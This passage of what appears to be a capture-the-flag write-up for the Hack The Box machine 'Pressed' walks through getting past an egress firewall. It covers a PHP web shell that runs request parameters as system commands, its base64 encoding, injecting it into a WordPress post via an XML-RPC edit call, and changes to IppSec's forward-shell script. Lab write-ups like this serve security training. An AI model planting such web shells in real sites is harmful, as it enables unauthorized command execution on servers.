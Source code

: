 | Direction | What’s Allowed | Why |
| --- | --- | --- |
| Incoming | TCP port 80 | Let people reach the web server |
| Incoming | ICMP echo request | Allow pings in |
| Incoming | Loopback | System self-communication |
| Outgoing | ICMP echo reply | Reply to pings |
| Outgoing | Established/related TCP | Respond to requests (like HTTP responses) |
| Outgoing | Loopback | Local communication |
- Everything else = blocked.

Let’s get IPPSEC’s forward shell and modify what’s required: https://github.com/IppSec/forward-shell

First let’s change our webshell to a $_REQUEST, so we can use POST request as well:

```bash
<?php system($_REQUEST["cmd"]); ?>

 echo(file_get_contents('/var/www/html/output.log')); <?php system($_REQUEST["cmd"]); ?>
```

On cyberchef, URL+base64 encode it:

```bash
JTNDP3BocCUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJTIyY21kJTIyJTVEKTslMjA/JTNF
```

```bash
>>> mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJTIyY21kJTIyJTVEKTslMjA/JTNF","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
>>> client.call(posts.EditPost(mod_post.id, mod_post))
```

Now try it out on burp to see if POST request works:

![image.png]({{ site.baseurl }}/assets/pressed/image%2020.png)

It does. Now change the following in forward-shell.py:

```bash
#CHANGE THE FOLLOWING TO:
#TO DEBUG, WE ARE ON A DIFFERENT PROXY
def __init__(self, interval=1.3, proxies='http://127.0.0.1:8082')
        self.url = r"http://pressed.htb/index.php/2022/01/28/hello-world/"
 
  def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8082"):
  
  #comment out
#        #headers = {'User-Agent': payload}   
data = {'cmd': payload} 

        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)   
```
